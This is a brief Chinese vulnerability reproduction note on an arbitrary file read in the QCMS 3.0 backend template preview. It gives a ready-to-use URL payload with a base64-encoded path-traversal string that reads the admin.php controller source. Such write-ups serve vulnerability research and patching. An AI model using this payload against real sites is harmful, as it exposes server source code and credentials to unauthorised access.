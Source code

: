 # QCMS 3.0 任意文件读取

### 一、漏洞简介

### 二、漏洞影响

QCMS 3.0

### 三、复现过程

用seay扫了一下后发现的漏洞

漏洞在后台模板代码预览处，构造payload例如


```bash
http://url/backend/template/tempview/Li4vLi4vLi4vQ29udHJvbGxlci9hZG1pbi5waHA=.html
```

即可读取Controller文件下admin.php文件源码

![](images/15893373797595.png)


跟源码对比下，确实是读到了

![](images/15893373855313.png)


**参考链接**

https://xz.aliyun.com/t/7269